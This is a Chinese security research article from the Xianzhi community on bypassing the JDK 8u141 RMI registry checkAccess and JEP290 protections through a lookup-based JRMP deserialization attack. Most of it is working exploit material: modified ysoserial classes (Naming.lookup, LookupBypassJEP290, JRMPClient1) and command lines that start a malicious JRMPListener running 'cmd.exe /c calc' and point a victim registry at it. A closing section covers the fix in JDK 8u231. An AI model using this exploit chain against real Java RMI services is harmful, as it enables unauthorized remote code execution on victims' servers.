# JAVA安全之JDK8u141版本绕过研究-先知社区

> **来源**: https://xz.aliyun.com/news/16161  
> **文章ID**: 16161

---

## 基本介绍

从JDK8u141开始JEP290中针对RegistryImpl\_Skel#dispatch中bind、unbind、rebind操作增加了checkAccess检查，此项检查只允许来源为本地，下面以bind为例：

```
public void dispatch(Remote var1, RemoteCall var2, int var3, long var4) throws Exception {
        if (var4 != 4905912898345647071L) {
            throw new SkeletonMismatchException("interface hash mismatch");
        } else {
            RegistryImpl var6 = (RegistryImpl)var1;
            String var7;
            ObjectInput var8;
            ObjectInput var9;
            Remote var80;
            switch (var3) {
                case 0:
                    RegistryImpl.checkAccess("Registry.bind");

                    try {
                        var9 = var2.getInputStream();
                        var7 = (String)var9.readObject();
                        var80 = (Remote)var9.readObject();
                    } catch (ClassNotFoundException | IOException var77) {
                        throw new UnmarshalException("error unmarshalling arguments", var77);
                    } finally {
                        var2.releaseInputStream();
                    }

                    var6.bind(var7, var80);

                    try {
                        var2.getResultStream(true);
                        break;
                    } catch (IOException var76) {
                        throw new MarshalException("error marshalling return", var76);
                    }

```

checkAccess方法的具体实现如下，从中可以看到这里获取了客户端的IP地址随后进行了检查只允许本地的IP地址进行bind、unbind、rebind

```
public static void checkAccess(String var0) throws AccessException {
        try {
            final String var1 = getClientHost();

            final InetAddress var2;
            try {
                var2 = (InetAddress)AccessController.doPrivileged(new PrivilegedExceptionAction<InetAddress>() {
                    public InetAddress run() throws UnknownHostException {
                        return InetAddress.getByName(var1);
                    }
                });
            } catch (PrivilegedActionException var5) {
                throw (UnknownHostException)var5.getException();
            }

            if (allowedAccessCache.get(var2) == null) {
                if (var2.isAnyLocalAddress()) {
                    throw new AccessException(var0 + " disallowed; origin unknown");
                }

                try {
                    AccessController.doPrivileged(new PrivilegedExceptionAction<Void>() {
                        public Void run() throws IOException {
                            (new ServerSocket(0, 10, var2)).close();
                            RegistryImpl.allowedAccessCache.put(var2, var2);
                            return null;
                        }
                    });
                } catch (PrivilegedActionException var4) {
                    throw new AccessException(var0 + " disallowed; origin " + var2 + " is non-local host");
                }
            }
        } catch (ServerNotActiveException var6) {
        } catch (UnknownHostException var7) {
            throw new AccessException(var0 + " disallowed; origin is unknown host");
        }

```

## 执行效果

下面我们本地启动一个JAVA RMI服务端，然后让本地局域网内的其他主机来模拟客户端来实施攻击操作，利用的方法为bind方法，具体利用流程如下：  
Step 1：首先启动服务器端



Step 2：随后客户端模拟攻击者进行端口扫描发现开启了1099端口，随后直接拿起ysoserial就直接开打

```
"C:\Program Files\Java\jdk1.8.0_181\bin\java.exe" -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 192.168.1.10 1099 CommonsCollections6 calc

```



报错信息如下：

```
java.rmi.ServerException: RemoteException occurred in server thread; nested exception is:
        java.rmi.AccessException: Registry.bind disallowed; origin /192.168.1.105 is non-local host
        at sun.rmi.server.UnicastServerRef.dispatch(UnicastServerRef.java:389)
        at sun.rmi.transport.Transport$1.run(Transport.java:200)
        at sun.rmi.transport.Transport$1.run(Transport.java:197)
        at java.security.AccessController.doPrivileged(Native Method)
        at sun.rmi.transport.Transport.serviceCall(Transport.java:196)
        at sun.rmi.transport.tcp.TCPTransport.handleMessages(TCPTransport.java:568)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run0(TCPTransport.java:826)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.lambda$run$0(TCPTransport.java:683)
        at java.security.AccessController.doPrivileged(Native Method)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run(TCPTransport.java:682)
        at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
        at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
        at java.lang.Thread.run(Thread.java:748)
        at sun.rmi.transport.StreamRemoteCall.exceptionReceivedFromServer(StreamRemoteCall.java:283)
        at sun.rmi.transport.StreamRemoteCall.executeCall(StreamRemoteCall.java:260)
        at sun.rmi.server.UnicastRef.invoke(UnicastRef.java:375)
        at sun.rmi.registry.RegistryImpl_Stub.bind(RegistryImpl_Stub.java:68)
        at ysoserial.exploit.RMIRegistryExploit$1.call(RMIRegistryExploit.java:77)
        at ysoserial.exploit.RMIRegistryExploit$1.call(RMIRegistryExploit.java:71)
        at ysoserial.secmgr.ExecCheckingSecurityManager.callWrapped(ExecCheckingSecurityManager.java:72)
        at ysoserial.exploit.RMIRegistryExploit.exploit(RMIRegistryExploit.java:71)
        at ysoserial.exploit.RMIRegistryExploit.main(RMIRegistryExploit.java:65)
Caused by: java.rmi.AccessException: Registry.bind disallowed; origin /192.168.1.105 is non-local host
        at sun.rmi.registry.RegistryImpl.checkAccess(RegistryImpl.java:350)
        at sun.rmi.registry.RegistryImpl_Skel.dispatch(RegistryImpl_Skel.java:69)
        at sun.rmi.server.UnicastServerRef.oldDispatch(UnicastServerRef.java:468)
        at sun.rmi.server.UnicastServerRef.dispatch(UnicastServerRef.java:300)
        at sun.rmi.transport.Transport$1.run(Transport.java:200)
        at sun.rmi.transport.Transport$1.run(Transport.java:197)
        at java.security.AccessController.doPrivileged(Native Method)
        at sun.rmi.transport.Transport.serviceCall(Transport.java:196)
        at sun.rmi.transport.tcp.TCPTransport.handleMessages(TCPTransport.java:568)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run0(TCPTransport.java:826)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.lambda$run$0(TCPTransport.java:683)
        at java.security.AccessController.doPrivileged(Native Method)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run(TCPTransport.java:682)
        at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
        at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
        at java.lang.Thread.run(Thread.java:748)

```

## 绕过思路

JDK 8u141之后可以利用lookup+JRMP(JRMP是为了绕过JEP290，此为8u121之后必须条件)来绕过checkacces并且实施攻击，在之前的RMI通信源码调试分析中我们了解到注册中心时反序列化的点在RegistryImpl\_Skel#dispatch中，其中var3代表客户端发起连接的方法



其中对应的关系如下：

* 0->bind
* 1->list
* 2->lookup
* 3->rebind
* 4->unbind

在看源代码的时候我们可以发现在bind，rebind，unbind和lookup中都有反序列化操作，但只有lookup中没有调用checkAccess



而且可以看到的是在lookup中的反序列化操作是String



由于RegistryImpl\_Stub#lookup这个方法只接受一个String参数，我们在客户端使用它来传递恶意的对象是不行的，但是我们可以在ysoserial中自己实现一个lookup方法，使它接受Remote对象作为参数

```
package ysoserial.exploit;

import ysoserial.payloads.util.Reflections;
import java.rmi.NotBoundException;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.Registry;
import java.rmi.server.Operation;
import java.rmi.server.RemoteRef;

public class Naming {

    /**
     * Disallow anyone from creating one of these
     */
    private Naming() {}

    public static Remote lookup(Registry registry, Object obj)
        throws Exception {
        RemoteRef ref = (RemoteRef) Reflections.getFieldValue(registry, "ref");
        long interfaceHash = Long.valueOf(String.valueOf(Reflections.getFieldValue(registry, "interfaceHash")));

        java.rmi.server.Operation[] operations = (Operation[]) Reflections.getFieldValue(registry, "operations");
        java.rmi.server.RemoteCall call = ref.newCall((java.rmi.server.RemoteObject) registry, operations, 2, interfaceHash);
        try {
            try {
                java.io.ObjectOutput out = call.getOutputStream();
                //反射修改enableReplace
                Reflections.setFieldValue(out, "enableReplace", false);
                out.writeObject(obj); // arm obj
            } catch (java.io.IOException e) {
                throw new java.rmi.MarshalException("error marshalling arguments", e);
            }
            ref.invoke(call);
            return null;
        } catch (RuntimeException | RemoteException | NotBoundException e) {
            if(e instanceof RemoteException| e instanceof ClassCastException){
                return null;
            }else{
                throw e;
            }
        } catch (java.lang.Exception e) {
            throw new java.rmi.UnexpectedException("undeclared checked exception", e);
        } finally {
            ref.done(call);
        }
    }
}

```

随后构建LookupBypassJEP290

```
package ysoserial.exploit;

import java.io.IOException;
import java.net.Socket;
import java.rmi.ConnectIOException;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.RMIClientSocketFactory;
import java.security.cert.X509Certificate;
import java.util.concurrent.Callable;
import javax.net.ssl.*;

import ysoserial.payloads.JRMPClient1;
import ysoserial.secmgr.ExecCheckingSecurityManager;

public class LookupBypassJEP290 {
    private static class TrustAllSSL implements X509TrustManager {
        private static final X509Certificate[] ANY_CA = {};
        public X509Certificate[] getAcceptedIssuers() { return ANY_CA; }
        public void checkServerTrusted(final X509Certificate[] c, final String t) { /* Do nothing/accept all */ }
        public void checkClientTrusted(final X509Certificate[] c, final String t) { /* Do nothing/accept all */ }
    }

    private static class RMISSLClientSocketFactory implements RMIClientSocketFactory {
        public Socket createSocket(String host, int port) throws IOException {
            try {
                SSLContext ctx = SSLContext.getInstance("TLS");
                ctx.init(null, new TrustManager[] {new TrustAllSSL()}, null);
                SSLSocketFactory factory = ctx.getSocketFactory();
                return factory.createSocket(host, port);
            } catch(Exception e) {
                throw new IOException(e);
            }
        }
    }
    public static void main(final String[] args) throws Exception {
        final String host = args[0];
        final int port = Integer.parseInt(args[1]);
        final String command = args[2];
        Registry registry = LocateRegistry.getRegistry(host, port);
        try {
            registry.list();
        } catch(ConnectIOException ex) {
            registry = LocateRegistry.getRegistry(host, port, new RMISSLClientSocketFactory());
        }

        // ensure payload doesn't detonate during construction or deserialization
        exploit(registry, command);
    }

    public static void exploit(final Registry registry,
                               final String command) throws Exception {
        new ExecCheckingSecurityManager().callWrapped(new Callable<Void>(){public Void call() throws Exception {
            JRMPClient1 jrmpclient = new JRMPClient1();
            Remote remote = jrmpclient.getObject(command);
            try {
                Naming.lookup(registry,remote);
            } catch (Throwable e) {
                e.printStackTrace();
            }

            return null;
        }});
    }

}

```

在这里需要注意的是我们不能直接指定JRMPClient这个payload来做LookupBypassJEP290的payload，因为AnnotationInvocationHandler会使服务端抛出REJECTED，AnnotationInvocationHandler类在LookupBypassJEP290中的使用只是为了把对象包装成Remote接口，而分析了JRMPClient这个payload发现它的反序列化过程本来就是从RemoteObject#readObject开始的，所以直接改写构造如下JRMPClient1

```
package ysoserial.payloads;

import java.rmi.Remote;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;

@SuppressWarnings ( {
    "restriction"
} )
@PayloadTest( harness="ysoserial.test.payloads.JRMPReverseConnectSMTest")
@Authors({ Authors.MBECHLER })
public class JRMPClient1 extends PayloadRunner implements ObjectPayload<Remote> {

    public Remote getObject (final String command ) throws Exception {

        String host;
        int port;
        int sep = command.indexOf(':');
        if ( sep < 0 ) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        Remote obj = new RemoteObjectInvocationHandler(ref);
        return obj;
    }
    public static void main ( final String[] args ) throws Exception {
        Thread.currentThread().setContextClassLoader(JRMPClient1.class.getClassLoader());
        PayloadRunner.run(JRMPClient1.class, args);
    }
}

```

## 工具打包

通过对上面改写之后的ysoserial进行打包



## 工具使用

在上面的执行效果一小节中的利用过程只是展示了CheckAccess关于异端请求处理的拦截效果，在实际的利用过程中此策略出现在JDK 8u141之后，而且在JDK 8u121之后加入了JEP290机制，所以在JDK8u121~141之间可以直接利用UnicastRef链路进行绕过，而在JDK 8u141~231则需要结合CheckAccess的绕过与JRMP反序列化机制来绕过，下面展示JDK8u141之后的真实环境下的利用流程：  
Step 1：首先使用ysoserial在攻击端启动一个恶意的JRMPListener(CommonCollections1的链在1.8下用不了，所以这里用了CommonCollections5)

```
"C:\Program Files\Java\jdk1.8.0_181\bin\java.exe" -cp ysoserial.jar ysoserial.exploit.JRMPListener 1088 CommonsCollections5 "cmd.exe /c calc"

```


Step 2：启动一个RMI服务来模拟受害者

```
package org.al1ex;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class RMIServer {
    public static void main(String[] args) {
        try {
            // 创建远程对象
            HelloService helloService = new HelloServiceImpl();

            // 创建 RMI 注册表
            Registry registry = LocateRegistry.createRegistry(1099);
            registry.bind("HelloService", helloService); // 绑定远程对象到注册表

            System.out.println("RMI Server is ready.");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```



Step 3：攻击端获取注册中心示例并将请求给重定向到我们恶意的JRMP服务端

```
#格式说明
"C:\Program Files\Java\jdk1.8.0_151\bin\java.exe" -cp ysoserial.jar ysoserial.exploit.LookupBypassJEP290 <攻击目标IP> <攻击目标端口> <本地JRMP服务IP>:<本地JRMP服务端口>

#执行示例
"C:\Program Files\Java\jdk1.8.0_181\bin\java.exe"  -cp ysoserial.jar ysoserial.exploit.LookupBypassJEP290 192.168.1.10 1099 192.168.1.16:1088

```



随后在服务端成功执行命令：



## 修复措施

### 异常处理

在JDK 8u231中RegistryImpl\_Skel#dispatch中的每个case都增加了ClassCastException，执行到反序列化时会因为反序列化返回的对象类型不是String而报错，从而调用StreamRemoteCall#discardPendingRefs

  
discardPendingRefs随后调用discardRefs()



在discardRefs()清除incomingRefTable属性的值，从而阻断了我们从JRMP到恶意服务端的请求过程

  
有人以为发起JRMP请求这个操作是在readObject的调用链中完成的，然而其实readObject中的调用链中只是填充ref，而真正发起连接的是var2.releaseInputStream()

